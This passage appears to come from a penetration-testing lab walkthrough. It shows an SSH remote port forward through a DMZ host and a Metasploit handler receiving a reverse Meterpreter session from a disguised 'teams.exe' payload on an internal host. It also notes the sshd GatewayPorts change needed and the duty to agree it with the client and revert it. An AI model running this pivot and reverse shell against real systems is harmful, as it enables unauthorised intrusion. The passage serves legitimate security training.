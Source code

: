 ```shell-session
$ ssh -i dmz01_key -R 172.16.8.120:443:0.0.0.0:7000 root@10.129.203.111 -vN

OpenSSH_8.4p1 Debian-5, OpenSSL 1.1.1n  15 Mar 2022
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 10.129.203.111 [10.129.203.111] port 22.

<SNIP>

debug1: Authentication succeeded (publickey).
Authenticated to 10.129.203.111 ([10.129.203.111]:22).
debug1: Remote connections from 172.16.8.120:443 forwarded to local address 0.0.0.0:7000
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Remote: /root/.ssh/authorized_keys:1: key options: agent-forwarding port-forwarding pty user-rc x11-forwarding
debug1: Remote: /root/.ssh/authorized_keys:1: key options: agent-forwarding port-forwarding pty user-rc x11-forwarding
debug1: Remote: Forwarding listen address "172.16.8.120" overridden by server GatewayPorts
debug1: remote forward success for: listen 172.16.8.120:443, connect 0.0.0.0:7000
```

Next, execute the teams.exe payload from the `DEV01` host, and if all goes to plan, we'll get a connection back.

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 0.0.0.0:7000 
[*] Sending stage (175174 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:7000 -> 127.0.0.1:51146 ) at 2022-06-22 12:21:25 -0400

(Meterpreter 2)(c:\windows\system32\inetsrv) > getuid
Server username: IIS APPPOOL\DotNetNukeAppPool
```

A caveat to the above method is that, by default, OpenSSH only allows connection to remote forwarded ports from the server itself (localhost). To allow this, we must edit the `/etc/ssh/sshd_config` file on Ubuntu systems and change the line `GatewayPorts no` to `GatewayPorts yes`, otherwise we will not be able to get a call back on the port we forwarded in the SSH command (port 443 in our case). To do this, we would need root SSH access to the host we are using to pivot from. At times we will see this configuration set up like this, so it works straight away, but if we don't have root access to the host with the ability to temporarily modify the SSH config file (and reload it to take effect using `service sshd reload`), then we won't be able to perform port forwarding in this way. Keep in mind that this type of change opens up a security hole in the client's system, so you'd want to clear it with them, note down the change, and make every effort to revert it at the end of testing. This [post](https://www.ssh.com/academy/ssh/tunneling/example) is worth reading to understand SSH Remote Forwarding better.

***
